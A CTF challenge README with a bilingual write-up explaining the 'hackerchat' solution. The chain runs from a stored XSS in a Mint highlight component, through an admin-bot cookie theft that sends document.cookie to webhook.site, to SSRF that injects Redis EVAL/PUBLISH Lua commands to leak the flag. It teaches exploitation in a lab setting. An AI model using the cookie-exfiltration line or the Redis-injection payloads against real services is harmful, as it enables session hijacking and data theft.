

# web | hackerchat

## Information

Я даже не удивлен, что за нами наблюдают. Сколько раз вам говорить: все работы и заказы мы обсуждаем только в нашем мессенджере! Секретные чаты в телеге, Signal? История должна храниться только у вас в голове, детишки.

I'm not even surprised that we are being watched. How many times do I have to tell you: we discuss all work and orders only in our messenger! Secret chat rooms in the cart, Signal? History should only be kept in your head, kids.

## Deploy

Деплой на команду, но в худшем случае:

```sh
cd deploy
docker compose -p hackerchat up --build -d
```

## Public

Provide archive: [public/hackerchat.tar.gz](public/hackerchat.tar.gz).

## TLDR

Path traversal to etcd wia URL-parameters in Golang.

## Writeup (ru)

### Что нам вообще дано
При открытии сайта мы видим окно авторизации. Поскольку у нас пока нет логина, то сначала регистрируемся, и потом уже логинимся.

Мы видим, что перед нами сообщение для общение в чате. Мы можем создавать группы, приглашать туда людей, и писать туда сообщения.

Но при обновлении страницы история теряется.

Попытки проверить стандартные уязвимости не привели к успеху, начинаем читать код.

### Чтение кода

Мы видим, что приложение состоит из нескольких частей.
* Веб-интерфейс на Mint для авторизации и чатов.
* Backend на Swift/Vapor/Fluent.
* В докере так же запущены redis, postgres (и в середине ctf добавился nginx, но про него потом)
* Какой-то бот bot.js, который наводит на мысль об xss.

Пытаемся погрепать секреты, строчки вроде innerhtml, dangerous, но без успеха, поэтому идем читать код.

### Чтение backend

Ладно, давайте копнем глубже в бэкенд. Он написан на Swift с использованием фреймворка Vapor. Основная движуха происходит в файле `routes.swift`.

Вот что бросается в глаза:

1. Для авторизации используется vapor session middleware.
2. Используется redis для хранения сессий, причем в этот redis кладется flag. Больше никакого взаимодействия с redis нет, поэтому странно, как мы можем получить флаг.
3. Пользователи и чаты хранятся в postgres, для работы с ними используется Fluent. Рукописного SQL нету, поэтому SQL-инъекции вряд-ли будут, для этого нужны 0-day во fluent.
4. Работа с пользователями и отправка сообщений на сервер происходит через rest api по `/api`.
5. Сервер отправляет сообщения пользователям через WebSocket, от `/send` до обработчика вебсокета сообщения доходят через каналы redis.
6. ОООчень подозрительная ручка `/beta/fbi` и соответстующая ей модель в базе.
7. Есть обработка команд в чате, если сообщение начинается с `/`.

Внимательно прочитав код обработки сообщений видим крайне подозрительную обработку команд в emergency чатах:

Ищется команда в таблице `fbi` по заданному имени, берется метод и url, и делается запрос по ним.

При этом запрос делается на `BETA_FBI_URl`. А в `docker` задается переменная `BETA_FBI_URL`. То есть вместо переменной окружения используется значение по умолчанию (`http://localhost`).

Если мы сможем каким-то образом добавить правило, то сможем делать запрос на любой port на localhost с любым методом, передав в `url` значение `:port`. То есть мы сможем сделать запрос в redis - на `localhost:6379`. Правда в redis есть защита от http запросов - он завершает соединение если видит `Host:`, но с этим мы разберемся позже.

Как добавить правило? У админа есть ручка `/beta/fbi/add`, которая принимает json с именем, методом и url. Значит осталось только стать админом. Наличие бота, ручки `/xss` и того, что надо стать админом намекает, что надо сделать xss.

### Чтение frontend и поиск xss

Фронт написан на Mint с использованием mint ui.

В самом коде сервиса нет прям видимых уязвимостей, что наводит на мысль в xss в зависимостях.

Можно пойти читать код всех используемых компонент (особенно удобно в vim - в нем работает переход по определению), но это не очень удобно.

Проще всего заметить, что выделяется компонента `Hljs` - у нее в имени нет префикса `Ui.`. Это потому что это не часть mint ui, а часть mint-ui-examples, который ставится отдельно в докере. Прочитав код `Hljs` сразу видим уязвимость:
```mint
<div::line(Array.contains(highlight, index)) dangerouslySetInnerHTML={`{__html: #{line}}`}/>
```

`line` - элемент `content`.
Значит надо сделать так, чтобы в `content` оказалось значение с эксплойтом.

`content` задается так:
```mint
fun componentDidMount {
  next { content: highlightedCode }
}

get highlightedCode {
  if language == "plain" {
    String.split(code, "\n")
  } else {
    `hljs.highlight(#{language}, #{code}, true).value`
    |> String.split("\n")
  }
}
```

То есть если `language` - это `plain`, то `content` просто подставляется из нашего сообщения.

Осталось написать эксплойт:
````
```plain
</img>
```
````

Иии видим, что не работает. А все потому что автор ленивый, и ожидал `\n` перед началом блока кода.

````
**bold** __italic__
```plain
</img>
```
````

И видим, что работает. Осталось заставить админа увидеть наше сообщение.

Для этого еще раз читаем mint. И видим, что есть сообщение `important == "URGENT"`, то чат с ним становится активированным, и оно сразу покажется.

Сообщение имеет проставленный `important`, если оно отправлени в emergency чат. Сами мы создав такой чат не можем.

Но внимательно прочитав код backend видим, что он создается автоматически в миграции - под именем `__test_emergency_chat`.

Добавлять в чат мы можем кого угодно и в какой угодно - для этого надо вызвать `/api/chats/add` с параметрами `{"name": "__test_emergency_chat", "user": "admin"}`.

Осталось получить cookie админа. Была идея дать сложную версию таска, где cookie имеет флаг http-only, но в итоге решено было сделать простую. Поэтому мы можем просто сделать `window.location.href = "https://webhook.site/..." + document.cookie`.

### Реализация SSRF

Осталось понять, как достать флаг из redis.

Redis использует простой текстовый протокол, где в начале строки идет команда, потом аргументы.

Мы контролируем метод http запроса, поэтому можем вместо него написать любую команду для redis.

И даже несколько команд - потому что можем добавить перевод строки внутри method, однако это не обязательно - мы можем сначала добавить первое правило с первой командой, потом второе со второй и т.д.

Осталось понять, как получить флаг - ведь вывод команд мы не видим.

### Intended способ
Мы знаем, что в redis лежат сессии, в которых лежит в том числе имя пользователя. Мы его можем получить, если сделаем запрос на `/api/user/me`. Значит надо просто перезаписать его на флаг.

Для этого redis поддерживает выполнение lua скриптов, а дальше дело техники:

```lua
local result = redis.call("SCAN", 0)
local keys = result[2]
local flag = redis.call("GET", "flag")

for i, key in ipairs(keys) do
    local value = redis.call("GET", key)
    if value and string.find(value, "{имя нашего пользователя}") then
        local newValue = string.gsub(value, "{имя нашего пользователя}", flag)
        redis.call("SET", key, newValue)
    end
end
```

Вот так это выглядит в команде:
```
EVAL "\n    local result = redis.call(\"SCAN\", 0)\n    local keys = result[2]\n    local flag = redis.call(\"GET\", \"flag\")\n\n    for i, key in ipairs(keys) do\n        local value = redis.call(\"GET\", key)\n        if value and string.find(value, \"{username}\") then\n            local newValue = string.gsub(value, \"{username}\", flag)\n            redis.call(\"SET\", key, newValue)\n        end\n    end\n" 0
```

### unintended способ
Команда EXE.1sior, которые придумали FB, сделали красиво:

Они вспомнили, что для отправки сообщений так же используется redis. Поэтому мы можем сделать `PUBLISH` флага в redis канал нашего пользователя, и увидеть флаг красиво на сайте. Но все так же придется воспользоваться lua скриптом:

```lua
local flag = redis.call("GET", "flag")
redis.call("PUBLISH", "{username}", flag)
```

Вот так это выглядит на сайте:


### Проблемы задания

К сожалению, задание дописывалось в попыхах, и имело проблемы (

По задумке должны были работать правила в чате для эмодзи.

Но главная проблема - бот работал локально при тестировании задания, но не работал на сервере. Причину проблемы я так и не смог понять. Поэтому первым командам пришлось админа просить побыть для них ботом, и только в ночи бота починили - и то костылем. Прошу прощения у всех, кому это испортило впечатление от задания.

В частности сейчас в репозитории swift сразу кладет в redis фиксированную сессию, а бот сразу ее проставляет - этого не было изначально, и по очевидным причинам не было дано участникам - именно это и есть костыль, который заставил бота работать.

## Writeup (en)

### What we're given
When opening the site, we see a login window. Since we don't have credentials yet, we first register and then log in.

We see that we have a chat messaging system. We can create groups, invite people to them, and write messages.

However, the history disappears when the page is refreshed.

Attempts to check for standard vulnerabilities didn't yield results, so we start reading the code.

### Code Overview

The application consists of several parts:
* Web interface built with Mint for authentication and chats
* Backend using Swift/Vapor/Fluent
* Docker running redis, postgres (and nginx was added mid-CTF, but more on that later)
* A bot.js file that hints at potential XSS

We try grepping for secrets, strings like innerhtml, dangerous, but without success, so we dive deeper into the code.

### Reading the Backend

Let's dig deeper into the backend. It's written in Swift using the Vapor framework. The main logic happens in `routes.swift`.

Here's what stands out:

1. Authentication uses vapor session middleware
2. Redis is used for storing sessions, and the flag is stored there. There's no other interaction with redis, making it unclear how we might get the flag
3. Users and chats are stored in postgres, using Fluent for interaction. No raw SQL exists, so SQL injections are unlikely without 0-days in Fluent
4. User operations and message sending happen through a REST API at `/api`
5. Server sends messages to users via WebSocket, with messages going through redis channels from `/send` to the websocket handler
6. A VERY suspicious `/beta/fbi` endpoint and corresponding database model
7. Chat command processing for messages starting with `/`

Reading the message processing code carefully reveals suspicious command handling in emergency chats:

Commands are looked up in the `fbi` table by name, taking method and url parameters to make requests.

The request is made to `BETA_FBI_URl` instead of the `BETA_FBI_URL` environment variable set in Docker, defaulting to `http://localhost`.

If we can somehow add a rule, we could make requests to any port on localhost with any method by passing `:port` in the `url`. This means we could request redis at `localhost:6379`. Redis has protection against HTTP requests by closing connections when seeing `Host:`, but we'll handle that later.

How to add a rule? The admin has a `/beta/fbi/add` endpoint that accepts JSON with name, method and url. So we just need to become admin. The presence of a bot, `/xss` endpoint, and needing admin access suggests we need to perform XSS.

### Reading Frontend and Finding XSS

The frontend is written in Mint using mint ui.

The service code itself doesn't show obvious vulnerabilities, suggesting we should look at dependencies.

We could read all component code (especially convenient in vim with definition jumping), but there's an easier way.

The `Hljs` component stands out - it doesn't have the `Ui.` prefix. This is because it's not part of mint ui, but part of mint-ui-examples, installed separately in docker. Reading the `Hljs` code immediately reveals a vulnerability:
```mint
<div::line(Array.contains(highlight, index)) dangerouslySetInnerHTML={`{__html: #{line}}`}/>
```

`line` is an element of `content`.
So we need to get our exploit into `content`.

`content` is set like this:
```mint
fun componentDidMount {
  next { content: highlightedCode }
}

get highlightedCode {
  if language == "plain" {
    String.split(code, "\n")
  } else {
    `hljs.highlight(#{language}, #{code}, true).value`
    |> String.split("\n")
  }
}
```

If `language` is `plain`, `content` is directly inserted from our message.

Let's write an exploit:
````
```plain
</img>
```
````

And... it doesn't work. That's because the author expected a `\n` before the code block.

````
**bold** __italic__
```plain
</img>
```
````

Now it works! Next we need the admin to see our message.

Reading the mint code again shows that messages with `important == "URGENT"` become activated and show immediately.

Messages get marked as `important` if sent to an emergency chat. We can't create such chats ourselves.

But reading the backend code carefully reveals it's created automatically in migrations - named `__test_emergency_chat`.

We can add anyone to any chat by calling `/api/chats/add` with parameters `{"name": "__test_emergency_chat", "user": "admin"}`.

Now we just need the admin's cookie. There was an idea to make a harder version with http-only cookies, but it was decided to keep it simple. So we can just use `window.location.href = "https://webhook.site/..." + document.cookie`.

### Implementing SSRF

Now we need to figure out how to get the flag from redis.

Redis uses a simple text protocol with commands at the start of lines followed by arguments.

We control the HTTP method, so we can write any redis command instead.

We can even do multiple commands by adding newlines in the method, though it's not necessary - we can add one rule for the first command, then another for the second, etc.

The challenge is getting output since we can't see command responses.

### Intended Solution
We know redis stores sessions containing usernames. We can get this by requesting `/api/user/me`. So we just need to overwrite it with the flag.

Redis supports Lua scripts, making this straightforward:

```lua
local result = redis.call("SCAN", 0)
local keys = result[2]
local flag = redis.call("GET", "flag")

for i, key in ipairs(keys) do
    local value = redis.call("GET", key)
    if value and string.find(value, "{username}") then
        local newValue = string.gsub(value, "{username}", flag)
        redis.call("SET", key, newValue)
    end
end
```

Here's how it looks as a command:
```
EVAL "\n    local result = redis.call(\"SCAN\", 0)\n    local keys = result[2]\n    local flag = redis.call(\"GET\", \"flag\")\n\n    for i, key in ipairs(keys) do\n        local value = redis.call(\"GET\", key)\n        if value and string.find(value, \"{username}\") then\n            local newValue = string.gsub(value, \"{username}\", flag)\n            redis.call(\"SET\", key, newValue)\n        end\n    end\n" 0
```

### Unintended Solution
Team EXE.1sior, who found FB, did it elegantly:

They remembered that redis is also used for message sending. So they could `PUBLISH` the flag to their user's redis channel and see it nicely on the website. Still requires a Lua script:

```lua
local flag = redis.call("GET", "flag")
redis.call("PUBLISH", "{username}", flag)
```

Here's how it looks on the site:


### Task Issues

Unfortunately, the task was finished in a hurry and had some problems.

Chat rules for emojis were supposed to work according to the plan.

But the main issue was that the bot worked locally during testing but not on the server. I couldn't figure out why. So the first teams had to ask the admin to act as the bot, and only late at night was the bot fixed - with a hack. I apologize to everyone whose experience was affected by this.

Specifically, in the current repository, Swift immediately stores a fixed session in Redis, and the bot immediately sets it - this wasn't there initially, and for obvious reasons wasn't given to participants - this is precisely the hack that made the bot work. The fixed session and immediate bot login were added as a workaround to get the bot functioning on the server, even though it worked fine locally during testing.

## Exploit

[Here](solve/README.md)

## Cloudflare 

Yes (need to test)

